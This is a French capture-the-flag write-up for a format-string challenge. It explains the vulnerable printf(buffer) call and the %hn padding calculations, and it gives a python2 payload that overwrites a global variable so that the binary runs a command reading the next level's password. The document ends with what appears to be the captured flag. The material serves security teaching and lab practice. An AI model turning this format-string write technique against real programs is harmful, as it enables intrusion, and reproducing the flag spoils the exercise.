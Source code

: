# Format String Exploitation (CTF - Level4)

## ✨ Objectif

Exploiter une vulnérabilité de format string pour écrire la valeur `0x01025544` dans la variable globale `m` située à l'adresse `0x08049810`, afin de déclencher l'appel à `system("/bin/cat /home/user/level5/.pass")` et récupérer le flag.

---

## 👁️ Analyse du Binaire

### Protections désactivées :

```
RELRO           STACK CANARY      NX            PIE             
No RELRO        No canary found   NX disabled   No PIE
```

✅ Parfait pour l'exploitation : adresses fixes, exécution possible, aucune vérification.

### Fonction vulnérable :

```c
char buffer[512];
fgets(buffer, 512, stdin);
printf(buffer); // vulnérable !
```

---

## 🔫 Plan d'attaque (Format String)

### Objectif : écrire

```c
*(int*)0x08049810 = 0x01025544;
```

### Mémoire (Little Endian)

| Octet | Valeur | Adresse    |
| ----- | ------ | ---------- |
| 0     | 0x44   | 0x08049810 |
| 1     | 0x55   | 0x08049811 |
| 2     | 0x02   | 0x08049812 |
| 3     | 0x01   | 0x08049813 |

On utilise `%hn` (2 octets) pour écrire en 2 fois :

* `0x5544` → `0x08049810`
* `0x0102` → `0x08049812`

---

## 📉 Formule générale (avec %hn)

### Données :

```text
target_low  = 0x5544 = 21828
target_high = 0x0102 = 258
written_before = 12 (octets dans le buffer avant %c)
```

### Calculs :

```text
padding_high = target_high - written_before = 258 - 12 = 246
padding_low  = target_low - target_high     = 21828 - 258 = 21570
```

### Payload final :

```bash
python2 -c 'print(
"\x10\x98\x04\x08" +       # %12$hn (basse)
"\x12\x98\x04\x08" +       # %13$hn (haute)
"AAAA" +
"%246c%13$hn" +              # 0x0102 (haut)
"%21570c%12$hn"              # 0x5544 (bas)
)' > /tmp/caca
```

---

## 📊 Utilisation en GDB

```bash
gdb ./level4
b *0x0804848d
r < /tmp/caca
x/wx 0x08049810
# Doit afficher : 0x01025544
```

Puis :

```bash
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
---

## 🚀 TL;DR

* Utiliser `%hn` pour écrire 2 octets à la fois
* Calculer les bons `%c` avec :

  * `padding_high = valeur_haute - octets_déjà_affichés`
  * `padding_low  = valeur_basse - valeur_haute`
* Tester et ajuster en GDB si besoin

---